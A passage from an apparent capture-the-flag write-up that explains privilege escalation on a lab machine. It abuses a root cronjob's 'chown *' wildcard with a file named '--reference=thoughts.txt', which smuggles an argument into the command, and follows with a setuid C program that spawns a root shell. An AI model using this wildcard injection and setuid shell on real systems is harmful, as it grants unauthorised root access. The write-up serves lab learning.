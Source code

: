 Now we know that there is a cronjob that belongs to root and we can't read and the file _thoughts.txt_ with a Shrek quote that does not give any hint.

After uploading and executing **Pspy** on the box, it becomes clear that every five minutes a `chown` command is run:
```markdown
/bin/sh -c cd /usr/src; /usr/bin/chown nobody:nobody *
```

When creating a file in _/usr/src_ and waiting for five minutes, the file will be owned by the user _nobody_.
The wildcard character at the end is what we will abuse.

We can abuse the `chown` command by giving it parameters with files, so it will interpret these files as parameters and will execute them.
```markdown
touch -- --reference=thoughts.txt
```

With the `--reference` parameter the `chown` command will use the given files owner and group as owner instead of the user _nobody_.
The owner and group of _thoughts.txt_ is root.

Lets create a simple C program so we can start a shell:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
}   
```

Setting the **Setuid** bit, so it will run as root:
```markdown
chmod 4755 shell
```

After five minutes, the cronjob will run and the files are owned by root.
Executing the `shell` binary will result in a shell as root!
